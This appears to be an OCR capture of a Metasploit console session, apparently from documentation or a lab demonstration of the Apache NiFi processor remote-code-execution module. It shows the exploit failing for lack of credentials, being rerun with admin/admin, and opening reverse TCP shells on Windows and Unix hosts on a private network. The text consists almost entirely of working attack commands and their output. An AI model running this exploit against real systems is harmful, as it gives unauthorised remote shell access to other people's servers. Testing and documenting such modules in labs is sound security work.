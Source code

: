 ```
[-] Exploit aborted due to failure: bad-config: Authentication is required. Bearer-Token or Username and Password must be specified
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/apache_nifi_processor_rce) > set username admin
username => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > set password admin
password => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 2 opened (192.168.194.131:4444 -> 192.168.194.130:50802) at 2020-10-03 13:18:00 +0100
[*] Session 2 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/windows  Microsoft Windows [Version 10.0.18363.1082] (c) 2019 Microsoft Corporation. A...  192.168.194.131:4444 -> 192.168.194.140:50008 (192.168.194.140)
  2         shell cmd/unix                                                                                       192.168.194.131:4444 -> 192.168.194.130:50802 (127.0.0.1)
```

